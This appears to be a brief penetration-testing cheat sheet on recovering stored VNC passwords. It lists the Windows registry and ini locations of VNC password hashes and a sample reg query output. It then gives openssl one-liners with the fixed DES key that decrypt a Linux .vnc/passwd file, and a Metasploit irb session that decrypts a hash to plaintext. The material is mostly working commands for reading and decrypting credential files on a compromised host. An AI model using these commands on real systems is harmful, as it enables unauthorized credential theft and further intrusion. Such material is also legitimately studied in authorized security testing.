 # Windows

Location paths for VNC passwords:

```
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver
HKEY_CURRENT_USER\Software\TightVNC\Server
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4
C:\Program Files\UltraVNC\ultravnc.ini
```

Use Case: 

```
C:\Windows\system32>reg query HKLM\SOFTWARE\TightVNC\Server /s

HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
--- SNIP ---
    Password    REG_BINARY    D7A514D8C556AADE
    ControlPassword    REG_BINARY    1B8167BC0099C7DC
--- SNIP ---
```

# Linux

If you obtain access to a linux system that is running a vnc service, search through the users .vnc directory. In the .vnc directory you may find a passwd file. To decrypt the password file, run the following command: 

```
cat .vnc/passwd | openssl enc -des-cbc -nopad -nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d
```

```
echo -n "vnc-hash" | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

# Other ways to decrypt VNC Passwords

## Metasploit

```
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```


Source: 
- https://github.com/frizb/PasswordDecrypts